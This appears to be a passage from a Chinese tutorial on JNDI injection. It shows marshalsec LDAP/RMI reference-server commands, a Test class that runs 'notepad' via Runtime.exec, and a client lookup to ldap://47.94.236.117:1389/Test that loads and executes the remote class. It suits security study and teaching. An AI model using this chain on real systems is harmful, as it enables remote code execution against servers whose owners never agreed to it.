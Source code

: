    javac Test.java

3. 使用利用工具生成调用协议（rmi,ldap）

   java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://0.0.0.0/#Test

   java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://0.0.0.0/#Test

4. 将生成的Class存放访问路径

后续步骤就是再创建一个Jndi的项目，新建Test.java，代码如下：

```java
import java.io.IOException;
 
public class Test {
    public Test() throws IOException {
        Runtime.getRuntime().exec("notepad");
    }
}
```

再就是生成class文件，在终端执行：

```shell
cd .\src\main\java\
 
 javac .\Test.java  
 
 ls
```

完成之后将文件放到服务器中，可以用`url+路径/文件名`的方式来确定文件是否正确上传或者上传到目标位置。

在项目中新建Ldap.java，代码如下：

```java
import javax.naming.InitialContext;
 
public class ldap {
    public static void main(String[] args) throws Exception{
 
        // 创建一个rmi ldap等服务调用 实例化对象
        //new InitialContext().lookup("rmi://47.94.236.117:1099/Test");
        // 调用rmi ldap等服务对象类（远程服务）
        //ldap://47.94.236.117:1389/nx5qkh =  远程地址的一个class文件被执行
        //ini.lookup("ldap://47.94.236.117:1389/nx5qkh");
 
        //new InitialContext().lookup("ldap://localhost:1389/Calc");
        // 进行访问
        new InitialContext().lookup("ldap://47.94.236.117:1389/Test");
        //new InitialContext().lookup("ldap://47.94.236.117:1389/Test");
 
 
    }
}
```
